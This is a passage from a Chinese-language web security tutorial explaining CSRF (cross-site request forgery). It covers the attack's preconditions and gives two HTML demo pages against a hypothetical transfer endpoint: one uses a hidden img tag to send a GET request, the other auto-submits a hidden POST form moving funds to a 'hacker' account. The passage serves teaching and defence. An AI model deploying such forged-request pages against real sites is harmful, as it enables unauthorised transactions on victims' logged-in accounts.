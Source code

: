 # CSRF 攻击
## 什么是 CSRF 攻击
CSRF 又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。

和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。因此黑客是无法通过 CSRF 攻击来获取用户页面数据的。

## CSRF 攻击的特征
了解了 CSRF 攻击的一些手段之后，再来看看 CSRF 攻击的一些“特征”，然后根据这些“特征”分析下如何防止 CSRF 攻击。下面是发起 CSRF 攻击的三个必要条件：
- 第一个，目标站点一定要有 CSRF 漏洞
- 第二个，用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态
- 第三个，需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛

## CSRF 攻击方式
通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击。

假设某网站具有转账功能，可以通过 POST 或 Get 来实现转账，转账接口如下所示：
```bash
# 同时支持 POST 和 GET
https://www.aaa.com/sendcoin

#参数
{
    user: string #目标用户
    price: number #目标金额
}
```
### 用户进入黑客网站后自动触发
#### 自动发起 Get 请求
下面是黑客页面的 HTML 代码
```html
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <img src="https://www.aaa.com/sendcoin?user=hacker&price=100">
  </body>
</html>
```
在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。

当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 极客币就被转移到黑客的账户上去了。

#### 自动发起 POST 请求
有些服务器的接口是使用 POST 方法的，所以黑客还需要在他的站点上伪造 POST 请求，当用户打开黑客的站点时，是自动提交 POST 请求。

```html
<html>
<body>
  <h1>黑客的站点：CSRF攻击演示</h1>
  <form id='hacker-form' action="https://www.aaa.com/sendcoin" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="price" value="100" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```
在这段代码中，可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。
